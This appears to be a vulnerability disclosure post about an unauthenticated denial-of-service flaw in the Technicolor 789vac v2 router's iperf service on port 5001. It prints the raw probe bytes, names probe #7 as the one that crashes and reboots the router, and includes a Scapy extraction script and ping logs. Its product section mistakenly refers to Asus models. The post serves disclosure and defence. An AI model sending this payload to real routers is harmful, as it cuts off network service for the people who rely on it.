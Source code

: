 ```yaml
---
layout: post
title: "Router Technicolor 789vac v2" 
date: 2025-01-15
comments: "-"
categories: vulnerability
---
```



## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT 2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We analyzed the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1: b'\x01\x00\x00\xfd\xce\xfa\x0b\xb0\xa0\x00\x00\x00MMS\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x01\x00\x03\x00\xf0\xf0\xf0\xf0\x0b\x00\x04\x00\x1c\x00\x03\x00N\x00S\x00P\x00l\x00a\x00y\x00e\x00r\x00/\x009\x00.\x000\x00.\x000\x00.\x002\x009\x008\x000\x00;\x00 \x00{\x000\x000\x000\x000\x00A\x00A\x000\x000\x00-\x000\x00A\x000\x000\x00-\x000\x000\x00a\x000\x00-\x00A\x00A\x000\x00A\x00-\x000\x000\x000\x000\x00A\x000\x00A\x00A\x000\x00A\x00A\x000\x00}\x00\x00\x00\xe0m\xdf_'
Probe #2: b'\x00\x00\x00\x1f\x00\x00\x00\x00\x00\x00\x00\x0cGetClassName\x00\x00\x00\x02\x04\x00\x00\x00\x00\x01\x00'
Probe #3: b'\r\n\r\n'
Probe #4: b'GET / HTTP/1.0\r\n\r\n'
Probe #5: b'OPTIONS / HTTP/1.0\r\n\r\n'
Probe #6: b'OPTIONS / RTSP/1.0\r\n\r\n'
Probe #7: b'\x80\x00\x00(r\xfe\x1d\x13\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xa0\x00\x01\x97|\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #8: b'\x00\x1e\x00\x06\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x07version\x04bind\x00\x00\x10\x00\x03'
Probe #9: b'\x00\x0c\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00'
Probe #10: b'HELP\r\n'
Probe #11: b'\x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xd7\xf7\xba,\xee\xea\xb2`~\xf3\x00\xfd\x82{\xb9\xd5\x96\xc8w\x9b\xe6\xc4\xdb<=\xdbo\xef\x10n\x00\x00(\x00\x16\x00\x13\x00\n\x00f\x00\x05\x00\x04\x00e\x00d\x00c\x00b\x00a\x00`\x00\x15\x00\x12\x00\t\x00\x14\x00\x11\x00\x08\x00\x06\x00\x03\x01\x00'
```

Probe scraping: 
```
from scapy.all import rdpcap

# pcapng file
file_path = 'crash.pcapng'  # Replace with your file path
packets = rdpcap(file_path)

# Target parameters
target_ip = "ip_addr" 
target_port = 5001

# Payload extraction
probes = []
for packet in packets:
    if packet.haslayer("TCP") and packet["TCP"].dport == target_port and packet["IP"].dst == target_ip:
        payload = bytes(packet["TCP"].payload)
        if payload and payload not in probes:  # Avoid duplicates
            probes.append(payload)

for i, probe in enumerate(probes, start=1):
    print(f"Probe #{i}: {probe}")
```

The probe #7 is the chosen one that leads Techicolor 789vac failure. The Router becomes unreachable from every service. 
```
64 bytes from 192.168.1.1: icmp_seq=183 ttl=64 time=0.401 ms
64 bytes from 192.168.1.1: icmp_seq=184 ttl=64 time=0.348 ms
64 bytes from 192.168.1.1: icmp_seq=185 ttl=64 time=0.384 ms
64 bytes from 192.168.1.1: icmp_seq=186 ttl=64 time=0.373 ms
64 bytes from 192.168.1.1: icmp_seq=187 ttl=64 time=0.335 ms
64 bytes from 192.168.1.1: icmp_seq=188 ttl=64 time=0.349 ms
64 bytes from 192.168.1.1: icmp_seq=189 ttl=64 time=4.66 ms
64 bytes from 192.168.1.1: icmp_seq=190 ttl=64 time=0.518 ms
64 bytes from 192.168.1.1: icmp_seq=191 ttl=64 time=0.385 ms
64 bytes from 192.168.1.1: icmp_seq=192 ttl=64 time=0.418 ms



From 192.168.1.2 icmp_seq=247 Destination Host Unreachable
From 192.168.1.2 icmp_seq=248 Destination Host Unreachable
From 192.168.1.2 icmp_seq=249 Destination Host Unreachable
```

Moreover, it will produce an unwanted reboot of the system. The time taken to reboot the system is not deterministic. It might require from to 5 minutes since the actor exploited the system. 
 
